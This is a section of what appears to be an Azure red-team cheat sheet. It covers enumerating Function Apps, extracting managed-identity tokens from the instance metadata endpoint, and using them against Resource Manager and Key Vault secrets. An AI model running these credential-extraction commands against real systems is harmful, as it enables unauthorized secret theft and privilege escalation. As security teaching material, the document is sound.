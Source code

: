 ## Exploiting Managed Identities and Azure Functions

### Managed Identity Exploitation
- **System-Assigned**: Identities tied to specific Azure resources
- **User-Assigned**: Standalone identities that can be assigned to multiple resources
- **Token Access**: Accessing Azure Resource Manager using managed identity tokens
- **Privilege Escalation**: Leveraging managed identity permissions

### Azure Function Exploitation
```bash
# Enumerate Azure Functions
az functionapp list

# Get function details
az functionapp show --name function-name --resource-group rg-name

# Access function endpoints
curl https://function-name.azurewebsites.net/api/function-endpoint

# Extract function code (if accessible)
az functionapp deployment source show --name function-name --resource-group rg-name
```

### Managed Identity Token Extraction
```bash
# From Azure VM or function (IMDS)
curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Using Azure CLI
az account get-access-token --resource https://management.azure.com/

# PowerShell method
$response = Invoke-RestMethod -Uri "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -Method GET -Headers @{Metadata="true"}
```

### Token Utilization
```bash
# Use extracted token for API calls
curl -H "Authorization: Bearer $TOKEN" https://management.azure.com/subscriptions?api-version=2020-01-01

# Access Key Vault with managed identity
curl -H "Authorization: Bearer $TOKEN" https://vault-name.vault.azure.net/secrets/secret-name?api-version=2016-10-01
```

### Function App Security Issues
- **Anonymous Access**: Functions accessible without authentication
- **Overprivileged MSI**: Managed identities with excessive permissions
- **Code Injection**: Input validation vulnerabilities in function code
- **Secret Exposure**: Hardcoded secrets in function configurations

